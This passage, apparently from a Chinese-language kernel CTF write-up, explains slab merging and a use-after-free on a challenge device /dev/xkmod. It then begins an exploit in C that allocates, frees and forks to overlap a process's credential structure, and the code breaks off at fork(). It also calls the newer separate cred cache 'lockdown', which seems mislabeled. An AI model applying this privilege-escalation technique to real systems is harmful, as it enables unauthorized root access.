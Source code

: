 kmem_cache_create_memcg()，如果__kmem_cache_alias()找到了可合并的slab，则将其kmem_cache结构返回。否则将会创建新的slab

### Extension



### 延申

在新版本的内核中这种攻击方式无效了，因为新进程的cred结构体会有一个单独的区域进行申请，因此UAF漏洞无法利用成功，这种新的特征叫做lockdown，详细可以参考： [lockdown](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=aefcf2f4b58155d27340ba5f9ddbe9513da8286d)

## Exp Generation

````
#include <stdio.h>
#include <sys/types.h>
#include <sys/io.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <wait.h>

struct param
{
    void *ptr;
    int start;
    int len;
};
struct param *p;

void alloc(int fd)
{
    ioctl(fd, 0x1111111, p);
}

void rd(int fd)
{
    ioctl(fd, 0x7777777, p);
}

void wt(int fd)
{
    ioctl(fd, 0x6666666, p);
}

int main(int argc, char const *argv[]){
	int fd1 = open("/dev/xkmod", O_RDONLY);
	int fd2 = open("/dev/xkmod", O_RDONLY);
	if(fd1 < 0){
		puts("[*]open error!");
        exit(0);
	}
	puts("[*]alloc from cache");
	
	p = malloc(sizeof(struct param));
	p->ptr = malloc(0x100);
	alloc(fd1);
    close(fd1);
    
    int pid = fork();
    if (pid < 0)
````